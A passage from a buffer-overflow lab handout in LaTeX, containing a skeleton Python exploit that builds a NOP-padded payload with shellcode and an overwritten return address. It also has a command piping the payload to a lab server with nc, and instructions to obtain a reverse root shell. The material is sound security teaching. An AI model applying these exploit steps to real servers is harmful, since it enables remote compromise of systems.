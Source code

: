 \begin{lstlisting}[language=python, caption={The skeleton exploit code (\texttt{exploit.py})}]
#!/usr/bin/python3
import sys

# You can copy and paste the shellcode from Task 1
shellcode = (
  ""                     # (*@\needtochange@*)
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517))

##################################################################
# Put the shellcode somewhere in the payload
start =  0               # (*@\needtochange@*)
content[start:start + len(shellcode)] = shellcode

# Decide the return address value 
# and save it somewhere in the payload
ret    = 0xAABBCCDD      # (*@\needtochange@*)
offset = 0               # (*@\needtochange@*)

# Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + 4] = (ret).to_bytes(4,byteorder='little')
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
\end{lstlisting}


After you finish the above program, run it. This will generate
the contents for \texttt{badfile}. Then feed it to
the vulnerable server. If your exploit is implemented correctly, the 
command you put inside your shellcode will be executed. If your 
command generates some outputs, you should be able to see
them from the container window. Please provide proofs to show that you
can successfully get the vulnerable server to run 
your commands.

\begin{lstlisting}
$./exploit.py   // create the badfile
$ cat badfile | nc 10.9.0.5 9090
\end{lstlisting}
 

\paragraph{Reverse shell.}
We are not interested in running some pre-determined commands. We 
want to get a root shell on the target server, so we can 
type any command we want. Since we are on a remote machine,
if we simply get the server to run \texttt{/bin/sh}, we won't be able to
control the shell program. Reverse shell is a typical
technique to solve this problem. Section~\ref{sec:guildelines} provides 
detailed instructions on how to run a reverse shell.
Please modify the command string in your shellcode, so you can
get a reverse shell on the target server. 
Please include screenshots and explanation in your lab report.



